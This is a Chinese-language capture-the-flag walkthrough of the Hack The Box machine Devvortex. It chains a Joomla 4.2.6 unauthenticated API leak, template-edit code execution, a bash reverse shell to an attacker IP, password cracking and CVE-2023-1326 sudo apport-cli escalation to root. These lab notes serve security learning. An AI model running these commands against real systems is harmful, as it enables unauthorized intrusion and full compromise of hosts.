




# 信息收集


开放了22和80端口，访问80会跳转到devvortex.tab，先配置一下host


用nmap对端口进一步探测，`-sV -sC -Pn -vv`


寻找子域名


这里我用subDomainsBrute没跑出来，看wp用的是ffuf这个爆破工具，结合https://github.com/danielmiessler/SecLists这个仓库的字典，看起来还挺全

```
./ffuf -c -w ./seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154 -t 100 -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb"
```

还是没跑出来，直接添加hosts吧，不知道为什么，我看别人也只添加了一个hosts就跑出来了，我的字典都有这个前缀，subdomian的默认字典也有这个，用gobuster也没有跑出来

接下来扫目录

```
./gobuster dir --url dev.devvortex.htb -w common.txt -t 25 
```

看到了administrator


# Getshell

发现是joomla


先利用joomlascan探测一波，版本为4.2.6


搜索发现了一个未授权访问漏洞可以泄漏数据库账号密码

```
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/config/application?public=true	# config配置
http://127.0.0.1/Joomla4.2.7/api/index.php/v1/users?public=true # 用户配置
```




也可以网上的脚本直接跑


这里拿到了数据库密码，还用用户名，但是连不上3306，最后用数据库账号密码（密码复用）登陆到了后台


看到有templates，在这种php到站后台编辑模板处都可以去尝试rce，error.php是可写的




成功执行代码

弹个shell回来，因为这里访问一次后会恢复原来的样子

```
bash -i >& /dev/tcp/10.10.16.28/2333 0>&1
```


发现有python3


升级为交互式shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


在/etc/passwd中看到了另外的用户



# 横向到其他用户

这个用户和刚才通过漏洞看到了User一样


User也有这个用户，说不定也有密码复用，可以去数据库里面看看网站中这个用户的密码


加密了， 可以尝试能不能爆破，丢hash在线识别后直接用john爆破


用rockyou这个字典，爆破出来是`tequieromucho`

也可以用hashcat

```
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt
```

这里直接贴别人的图了


尝试横向


# 提权

有了密码后，因为开始信息收集的时候也发现开了ssh的，可以ssh直接登陆，也可以继续用shell

剩下一个flag需要root用户，想办法提权，suid无果

HTB的提权很有意思，一般不是常规的suid提权，这里sudo有suid权限


来`sudo -l`看看，反正有这个用户的密码了


这里有一个apport-cli有sudo权限


找到了CVE-2023-1326

https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb

这里面有poc，可以进行权限提升


先要查看/var/crash底下有什么crash文件，但是目前没有crash文件

首先配置`bash`以保存大型转储

```
ulimit -c unlimited
```

然后强制出现分段错误，以便将核心转储为大型崩溃文件

```
sleep 10 &

killall -SIGSEGV sleep
```



然后在/var/crash中看到了crash文件，用apport-cli直接运行这个crash

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

运行完后会提升输入什么东西


输入`!id`


看到了已经是root权限了，同理看到了root下的flag


参考链接：

https://github.com/g1vi/Hack-the-box-write-ups/blob/main/Open%20beta%20season%20III%20(Fall%202023)/Week%209.%20HTB%20-%20Devvortex.MD

[HTB-Devvortex - HackerPath (timeless613.github.io)](https://timeless613.github.io/kiwi/WriteUp/HTB-Devvortex/#flag-root)

[HTB-Devvortex笔记 | CN-SEC 中文网](https://cn-sec.com/archives/2241452.html#google_vignette)
